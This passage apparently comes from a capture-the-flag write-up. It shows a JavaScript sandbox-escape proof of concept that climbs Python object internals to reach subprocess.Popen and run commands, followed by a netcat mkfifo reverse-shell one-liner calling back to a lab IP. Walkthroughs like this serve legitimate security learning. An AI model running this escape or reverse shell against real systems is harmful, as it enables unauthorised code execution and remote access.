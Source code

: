 ```js
let cmd = "id"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for (let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if (item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

// run the command and force UTF-8 string output
let proc = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true)
let out = proc.communicate()[0].decode("utf-8")

// return a plain string (JSON-safe)
"" + out
```

![Code Execution PoC](Code_execution_PoC.png)

## Foothold (Initial Access)

From the command, we directly perform reverse shell to ease our work. As always, I refer to [RevShells](https://www.revshells.com/).

In this case, I use `nc mkfifo`.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1337 >/tmp/f
```

As always, we proceed stabilize the shell.

![Stable shell](stable_shell.png)

Then, after we play around and found something useful.

![Interesting content](interesting_content.png)
